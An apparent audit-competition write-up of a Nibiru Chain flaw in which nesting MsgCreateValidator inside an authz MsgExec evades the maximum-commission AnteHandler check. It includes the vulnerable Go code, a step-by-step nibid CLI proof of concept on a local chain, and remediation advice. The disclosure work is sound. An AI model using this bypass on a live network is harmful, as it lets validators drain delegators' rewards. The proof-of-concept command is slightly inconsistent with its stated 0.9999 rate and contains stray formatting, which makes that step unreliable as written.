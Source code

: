 ```yaml
---
title: "Nibiru Chain: AnteHandler Bypass via Nested MsgExec"
date: "2025-06-19"
description: "Nibiru Chain: AnteHandler Bypass via Nested MsgExec"
tags: ["Cosmos", "Nibiru", "Audit Competition", "AnteHandler"]
---
```


`AnteDecoratorStakingCommission` is an AnteHandler decorator that enforces the **maximum validator commission rate** before a transaction is executed. If a validator tries to set a rate higher than the allowed maximum, the decorator blocks the transaction. The check, however, can be bypassed.

```go
func (a AnteDecoratorStakingCommission) AnteHandle(
	ctx sdk.Context, tx sdk.Tx, simulate bool, next sdk.AnteHandler,
) (newCtx sdk.Context, err error) {
	for _, msg := range tx.GetMsgs() {
		switch msg := msg.(type) {
		case *stakingtypes.MsgCreateValidator:
			rate := msg.Commission.Rate
			if rate.GT(MAX_COMMISSION()) { // <-----
				return ctx, NewErrMaxValidatorCommission(rate)
			}
		case *stakingtypes.MsgEditValidator:
			rate := msg.CommissionRate
			if rate != nil && msg.CommissionRate.GT(MAX_COMMISSION()) { // <-----
				return ctx, NewErrMaxValidatorCommission(*rate)
			}
		default:
			continue
		}
	}

	return next(ctx, tx, simulate)
}
```

Several standard Cosmos-SDK modules support wrapping or nesting messages, including proposals in **x/gov**, **x/group MsgExec**, and **x/authz MsgExec**. The **x/authz** module lets an account (grantor) delegate permissions to another account (grantee), which can later execute messages on the grantor’s behalf with **MsgExec**.

`AnteDecoratorAuthzGuard` intercepts and rejects certain authz transactions—specifically:

1. It prevents GenericAuthorization grants for `MsgEthereumTx`.
2. It rejects authz executions (`MsgExec`) that contain `MsgEthereumTx`.

This ensures EVM-related messages cannot bypass security restrictions through authz.

However, it does **not** check whether `MsgExec` wraps `MsgCreateValidator` or `MsgEditValidator`. Thus, a validator can embed a `MsgCreateValidator` inside `MsgExec` and bypass the commission-rate check.

```go
// AnteHandle rejects authz grants/executions for MsgEthereumTx
func (rmd AnteDecoratorAuthzGuard) AnteHandle(
	ctx sdk.Context, tx sdk.Tx, simulate bool, next sdk.AnteHandler,
) (newCtx sdk.Context, err error) {
	for _, msg := range tx.GetMsgs() {
		// Block GenericAuthorization grants for MsgEthereumTx …
		// (code omitted for brevity)
		// Also block MsgEthereumTx inside MsgExec
		if msgExec, ok := msg.(*authz.MsgExec); ok {
			msgsInExec, err := msgExec.GetMessages()
			if err != nil { … }
			for _, msgInExec := range msgsInExec {
				if _, ok := msgInExec.(*evm.MsgEthereumTx); ok {
					return ctx, errors.Wrapf(
						errortypes.ErrInvalidType,
						"MsgEthereumTx needs to be contained within a tx with 'ExtensionOptionsEthereumTx' option",
					)
				}
			}
		}
	}
	return next(ctx, tx, simulate)
}
```

Because `AnteDecoratorAuthzGuard` never inspects for `MsgCreateValidator`/`MsgEditValidator`, an attacker can wrap either message in `MsgExec` to evade the commission-rate guard.

## Proof of Concept

1. **Initialize a local Nibiru chain** (`nibid init`, set chain-id, create validator key, fund accounts, generate and collect gentxs, then `nibid start`).
2. **Create a secondary account** (`grantee`) and fund it.
3. **Generate a validator creation transaction** with an **illegally high `max_rate` (0.9999)**, save it as `create_validator_tx.json`.
    
    ```go
    nibid tx staking create-validator \
      --amount=100000000unibi \
      --pubkey='{"@type":"/cosmos.crypto.ed25519.PubKey","key":"S+VQRu+OTLL6326XR1ly7aF3VrtjA6KU3rkkQ9RMKTI="}' \
      --moniker="gxh191" \
      --commission-rate="0.1" \
      **--commission-max-rate="0.2" \** // <---------
    ****  --commission-max-change-rate="0.01" \
      --min-self-delegation="1" \
      --from=nibi1sux6qyw3a57epqnzusvmrzge8fnn9hu242ppnf \
      --chain-id=nibiru-1 \
      --fees=500unibi \
      --generate-only > create_validator_tx.json
    ```
    
    ```go
    "commission": {
        "rate": "0.100000000000000000",
        "max_rate": "0.999900000000000000", // <---------
        "max_change_rate": "0.010000000000000000"
    },
    ```
    
4. **Execute the validator creation** via `MsgExec`:
    
    ```bash
    nibid tx authz exec create_validator_tx.json \
      --from=<grantee> \
      --chain-id=nibiru-1 \
      --fees=500unibi
    ```
    
5. Query validators: the new validator shows `max_rate = 0.9999`, far above the 0.25 limit, proving the AnteHandler check was bypassed.
    
    ```go
    nibid query staking validators --node tcp://localhost:26657
    ```
    
    ```go
    - commission:
        commission_rates:
          max_change_rate: "0.010000000000000000"
          max_rate: "0.999900000000000000" // <----------
          rate: "0.100000000000000000"
        update_time: "2024-11-17T15:02:58.413062Z"
      consensus_pubkey:
        '@type': /cosmos.crypto.ed25519.PubKey
        key: S+VQRu+OTLL6326XR1ly7aF3VrtjA6KU3rkkQ9RMKTI=
      delegator_shares: "100000000.000000000000000000"
      description:
        details: ""
        identity: ""
        moniker: gxh191
        security_contact: ""
        website: ""
      jailed: false
      min_self_delegation: "1"
      operator_address: nibivaloper1sux6qyw3a57epqnzusvmrzge8fnn9hu2u30685
      status: BOND_STATUS_BONDED
      tokens: "100000000"
      unbonding_height: "0"
      unbonding_ids: []
      unbonding_on_hold_ref_count: "0"
      unbonding_time: "1970-01-01T00:00:00Z"
    ```
    

## Impact

- **Severe harm to delegators:** A validator can set a 99 % commission, siphoning almost all rewards.
- **Loss of trust and stake:** Delegators may withdraw, weakening overall network security.

## Recommendation

- Introduce an additional AnteDecorator to restrict which message types are permitted inside **authz MsgExec**.
- If an immediate fix is not feasible, consider temporarily disabling the **authz** module altogether.